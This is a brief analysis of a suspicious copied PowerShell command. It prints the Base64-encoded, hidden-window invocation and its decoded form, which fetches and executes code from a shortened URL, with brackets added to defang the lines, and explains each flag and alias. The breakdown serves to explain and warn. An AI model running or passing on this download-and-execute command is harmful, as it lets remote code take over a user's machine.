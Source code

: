 ## Copied code(Added [])
powershell -enc aAA7AGkAZQB4ACgAaQByAG0AIABoAHQAdABwAHMAOgAvAC8AdABpAG4AeQB1AHIAbAAuAGMAbwBtAC8AMwA1AG4AcAByAGsANAB[q]ACkA -w h

**powershell:** Calling powershell  
**-enc:** Decode in Base64  
**-w h:** Don't show window  

## Decoded string(added []): iex (irm https://tinyurl[.]com/35nprk4j)  

**iex:** This is an alias for Invoke-Expression, which executes a command passed as a string  
**irm:** This is an alias for Invoke-RestMethod, which retrieves data from a web resource

**Linked site:** https://b0o[.]lol/YRBJh (404 Not Found Error)
